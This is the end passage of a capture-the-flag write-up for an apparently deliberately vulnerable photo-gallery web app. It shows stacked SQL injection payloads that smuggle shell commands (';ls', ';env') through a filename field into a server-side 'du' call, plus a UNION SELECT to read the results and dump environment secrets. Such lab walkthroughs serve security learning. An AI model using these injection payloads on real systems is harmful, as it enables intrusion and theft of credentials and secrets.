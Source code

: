 ```
1; UPDATE photos SET filename=";ls > recon.txt" where id=3; commit;
```


Now we can go back to the `index` page so the `'du -ch <files>; <our command> || exit 0'` command is executed and then we can read our new file with:

```
?id=6 UNION SELECT 'recon.txt';
```

we get:

```
Dockerfile files main.py main.pyc prestart.sh recon.txt requirements.txt uwsgi.ini
```

Let's investigate these other files! After going over these one by one, the one that gave me an idea was `prestart.sh` since it contains the contents:

```
#!/bin/bash set -e service mysql start & python setup.py rm setup.py
```

Could this `setup.py` be adding something to our environment? Let's validate this by adding the contents out environment to our `recon.txt` file with the `env` command:

```
1; UPDATE photos SET filename=";env > recon.txt" where id=3; commit;
```

And reading this file gives us our last flag, and all the other ones!

```
...
FLAGS=["^FLAG^...$FLAG$","^FLAG^...$FLAG$","^FLAG^...$FLAG$"]
...
```

This was a fun challenge that forced us to put ourselves in the shoes of the developers and also to read some source code. I'm not entirely sure how I could have gone without getting a hint, so if you managed to do it without hints please reach out!

Thanks for reading and I will see you in our next post!